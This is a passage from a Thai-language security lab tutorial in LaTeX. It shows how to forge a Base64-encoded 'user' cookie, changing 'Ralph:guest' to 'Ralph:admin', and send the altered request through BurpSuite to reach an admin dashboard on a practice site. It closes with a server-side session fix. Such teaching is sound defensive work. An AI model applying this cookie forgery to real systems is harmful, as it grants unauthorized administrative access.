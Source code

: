 \begin{figure}[h!]
	\centering
	\texttt{[image: base64enccookie.png]}
	\caption{เปลี่ยนค่าจาก Ralph:guest เป็น Ralph:admin แล้ว Base64 Encode}
	\label{Fig:base64enccookie.png}
\end{figure}

เมื่อนำ Ralph:admin เข้าไป encode ด้วย Base64 จะได้ออกมาเป็น UmFscGg6YWRtaW4= แล้วลองนำค่านี้ไปใส่ใน Cookie ตอนที่ Browser กำลัง Request โดยใช้ BurpSuite ดัดแปลง HTTP Header

ไปที่ Proxy > Intercept แล้วเปิด Intercept is on จากนั้น Refresh Browser ที่ URL http://vulnerable.com/ch5/cornhub.php จะเห็น HTTP Request ดังนี้

\begin{lstlisting}[numbers=none] 
GET /ch5/cornhub.php HTTP/1.1
Host: vulnerable.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.142 Safari/537.36
Accept: text/html
Referer: http://vulnerable.com/ch5.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: <@\textcolor{red}{user=UmFscGg6Z3Vlc3Q=}@> ; PHPSESSID=ujoohfntudegar0jd0dq2cj624; security=low
Connection: close
\end{lstlisting}

จากนั้นแก้ไขจาก  user=UmFscGg6Z3Vlc3Q= ให้เป็น user=UmFscGg6YWRtaW4=

\begin{lstlisting}[numbers=none] 
GET /ch5/cornhub.php HTTP/1.1
Host: vulnerable.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.142 Safari/537.36
Accept: text/html
Referer: http://vulnerable.com/ch5.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: <@\textcolor{red}{user=UmFscGg6YWRtaW4=}@> ; PHPSESSID=ujoohfntudegar0jd0dq2cj624; security=low
Connection: close
\end{lstlisting}

\newpage

จากนั้นกด Forward เพื่อให้ Request ที่เราได้แก้ไขถูกส่งไปยัง Server

\begin{figure}[h]
	\centering
	\texttt{[image: cornhubadmin.png]}
	\caption{หน้า Dashboard ของ Admin}
	\label{Fig:cornhubadmin.png}
\end{figure}

เราสามารถเข้ามาในหน้าเว็บสำหรับ Admin ได้แล้ว! ช่องโหว่นี้สามารถแก้ไขได้โดยการเก็บข้อมูลของ User ไว้บนฝั่ง Server แทนในรูปแบบของ Session แล้วใช้ Session ID เป็น Cookie แทน

